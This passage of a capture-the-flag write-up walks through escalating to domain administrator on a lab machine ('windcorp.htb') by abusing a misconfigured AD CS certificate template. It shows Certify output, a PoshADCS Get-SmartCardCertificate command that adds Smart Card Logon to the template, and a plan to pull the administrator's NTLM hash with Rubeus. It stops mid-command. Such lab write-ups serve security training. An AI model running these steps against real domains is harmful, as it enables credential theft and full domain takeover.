 ```
        WriteDacl Principals        : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
        WriteProperty Principals    : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
```

It seems that the `webdevelopers` group has Full Control over this one template, and makes it vulnerable to some exploits:

{% embed url="https://systemweakness.com/exploiting-cve-2022-26923-by-abusing-active-directory-certificate-services-adcs-a511023e5366" %}

However, we have to note that this template is used for **Server Authentication** instead of **Client Authentication**. This means that we cannot directly request a certificate and use `rubeus` to obtain the NTLM hash of the administrator yet.

We have to either change this or make it such that we can still impersonate the administrator. I couldn't really figure this part out, so I used a writeup that redirected me to this repo:

{% embed url="https://github.com/cfalta/PoshADCS" %}

The repo itself explains the exploit in detail, something I found rather helpful. Basically, we want to create a 'Smart Card' for the user, and allow the certificate to be used for Smart Card authentication. This would allow us to impersonate the user using this new certificate.&#x20;

```powershell
Get-SmartCardCertificate -Identity Administrator -TemplateName Web -NoSmartCard
```

Afterwards, when we check `Certify.exe`, we can see that the vulnerable template has changed:

```
CA Name                               : earth.windcorp.htb\windcorp-CA
    Template Name                         : Web
    <TRUNCATED>
    pkiextendedkeyusage                   : Server Authentication, Smart Card Logon
    mspki-certificate-application-policy  : Server Authentication, Smart Card Logon
```

Afterwards, we can use `Get-ChildItem` to retrieve the certificate's ID, and `rubeus` to request for the NTLM hash of the administrator:

<pre><code>PS C:\Windows\Tasks> gci cert:\currentuser\my -recurse

